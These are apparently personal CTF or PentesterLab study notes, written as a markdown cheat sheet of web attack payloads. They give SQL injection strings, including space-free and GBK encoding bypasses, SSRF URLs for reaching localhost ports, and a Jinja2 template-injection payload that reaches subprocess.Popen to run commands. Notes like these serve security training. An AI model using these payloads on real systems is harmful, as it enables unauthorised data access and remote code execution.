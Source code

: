 * if there is a condition that **only one** result is return by the database, then we will **limit** the result to only one instead of all

  `' OR 1=1 LIMIT 1 -- `

* if there is a condition that **spaces** can't be used we will use **tabulation** in encoded form:

  `'%09OR%091=1%09#%09`

  or just `'||1=1#`

* CTF STUFF:

  the charachter encoding is set to 'GBK' which escapes `'` or `"` 

  to bypass this we use string `\xBF'` which is url encoded to `%bf%27` in place of `'`

### SSRF

* when we are resricted to access any internal file of a system which is running on its localhost we will make our vulnerable application to do it

  let's say we need to view content on port 1234 of its localhost then if we have a parameter like `/?url=` then we can do

  `/?url=http://127.0.0.1:1234`

  we can use `127.0.0.1` or `localhost` or `0.0.0.0` 

* we are given that `abcd.hackingwithpentesterlab.link` always respond with `127.0.0.1` we can check using

  ```bash
  dig abcd.hackingwithpentesterlab.link
  ```

  so in url 

  `/?url=https://assets.pentesterlab.com/hacker.txt` it is neccesary to include 'assets.pentesterlab.com' so we can use

  `/?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234/`

  NOTE: http in place of https

### SSTI

##### Jinja2

* if the website uses `jinja2` template injection, then we can execute following payload to get access to any class:

  ```jinja2
  {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}
  ```

  'X' is the number of that class

  

  we can use the above payload to get access to `<class 'subprocess.Popen'>`
  